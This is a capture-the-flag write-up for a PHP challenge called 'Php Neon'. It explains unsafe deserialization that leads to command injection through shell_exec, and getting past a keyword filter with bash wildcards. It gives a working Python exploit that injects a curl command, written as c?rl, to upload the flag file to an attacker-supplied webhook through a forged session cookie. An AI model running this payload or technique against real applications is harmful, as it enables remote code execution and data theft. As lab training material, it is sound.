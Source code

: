 # Php Neon

## Overview
The flag can be obtained through RCE (Remote Code Execution). It's possible to exploit deserialization to achieve RCE in the username via PHP `shell_exec` command. To do this, it's enough to serialize a User object and pass the bash command we want into the username, closing the previous string and commenting out the remaining apostrophe at the end. Once the object is serialized, we can convert it to base64 and use it as a session cookie. Since `shell_exec` executes code without displaying the output, it's necessary to use an external server such as ngrok or requestbin to send the flag. To make things even more complicated, the strings like `flag` or `curl` have been banned, but this can be easily bypassed using bash wildcards. For example, `/fl?g.*` will not be blocked e we can rewrite `curl` as `c?rl`, but execute it by referencing it from `/usr/bin/c?rl`.

## Exploit
```py
import subprocess
import requests

url = "http://127.0.0.1:6003"
webhook = input("webhook: ")

php_code = f"""
    <?php
    class User {{
        public $username;

        public function __construct($username) {{
            $this->username = $username;
        }}
    }}
    echo base64_encode(serialize(new User("'; /usr/bin/c?rl -T /fla?.* {webhook} #")));
    ?>
"""

output = subprocess.check_output(["php"], input=php_code.encode())
cookies = output.decode().strip()

requests.get(url, cookies={"user": cookies})
